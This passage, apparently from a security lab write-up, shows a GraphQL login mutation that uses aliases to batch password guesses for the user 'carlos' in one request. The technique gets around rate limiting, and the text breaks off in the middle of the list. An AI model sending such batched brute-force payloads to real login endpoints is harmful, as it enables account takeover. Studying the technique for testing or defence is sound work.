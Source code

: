 ```bash


bruteforce48:login(input:{password: "charlie", username: "carlos"}) {
        token
        success
    }


bruteforce49:login(input:{password: "robert", username: "carlos"}) {
        token
        success
    }


bruteforce50:login(input:{password: "thomas", username: "carlos"}) {
        token
        success
    }


bruteforce51:login(input:{password: "hockey", username: "carlos"}) {
        token
        success
    }


bruteforce52:login(input:{password: "ranger", username: "carlos"}) {
        token
        success
    }


bruteforce53:login(input:{password: "daniel", username: "carlos"}) {
        token
        success
    }


bruteforce54:login(input:{password: "starwars", username: "carlos"}) {
        token
        success
    }


bruteforce55:login(input:{password: "klaster", username: "carlos"}) {
        token
        success
    }


bruteforce56:login(input:{password: "112233", username: "carlos"}) {
        token
        success
    }


bruteforce57:login(input:{password: "george", username: "carlos"}) {
        token
        success
    }


bruteforce58:login(input:{password: "computer", username: "carlos"}) {
```